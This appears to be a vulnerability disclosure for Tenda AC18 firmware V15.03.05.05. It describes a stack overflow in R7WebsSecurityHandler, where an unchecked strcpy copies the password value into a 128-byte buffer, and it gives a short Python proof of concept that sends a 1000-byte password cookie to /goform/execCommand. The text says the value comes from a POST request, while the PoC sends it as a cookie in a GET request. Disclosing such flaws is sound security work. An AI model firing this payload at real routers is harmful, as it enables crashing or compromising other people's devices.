 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `R7WebsSecurityHandler` function. The `src` variable receives the `password` parameter from a POST request and is later assigned to the `v35` variable, which is fixed at 128 bytes. However, since the user can control the input of `password`, the statement `strcpy(v35, src);` can cause a buffer overflow. The user-provided  `password` can exceed the capacity of the `v35` array, triggering this security vulnerability.

![image-20240307162438572](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162438572.png)

![image-20240307162456041](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162456041.png)

![image-20240307162504018](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162504018.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://%s/goform/execCommand"%ip
cookie = {"Cookie":"password=" + "A"*1000}
ret = requests.get(url=url,cookies=cookie)
print(ret.text)
```

![image-20240307162654296](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240307162654296.png)